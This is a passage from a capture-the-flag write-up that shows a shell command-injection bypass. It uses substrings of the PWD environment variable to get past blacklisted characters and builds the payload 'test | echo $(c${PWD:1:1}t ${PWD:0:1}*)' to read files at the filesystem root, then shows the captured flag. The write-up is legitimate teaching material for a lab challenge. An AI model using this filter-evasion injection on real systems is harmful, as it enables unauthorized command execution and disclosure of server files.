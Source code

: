 
variables we could use:
```bash
NODE=/usr/local/bin/node
COLOR=0
EDITOR=vi
PWD=/application
PORT=3001
HOME=/root
SHLVL=1
PATH=/application/node_modules/.bin:/node_modules/.bin:/usr/local/lib/node_modules/npm/node_modules/@npmcli/run-script/lib/node-gyp-bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
NODE_VERSION=18.20.8
```

All we need is to execute:

```
cat /*
```
Since `A` is blacklisted, we can substitute it with `${PWD:1:1}`.  
Since `/` is blacklisted, we can use `${PWD:0:1}` instead.

Finally, we wrap it in `$()` so the command gets executed.

The final payload becomes:

```bash
test | echo $(c${PWD:1:1}t ${PWD:0:1}*)
```

![](/assets/posts/Stylish-Boss/Stylish-Boss,-12.png)

```bash
CATF{132231123213_Y0U_M4D3_1T_B055_Y0U_D3S3RV3_4_MU5HR00M_45_4_G1FT!_23312213132}
```
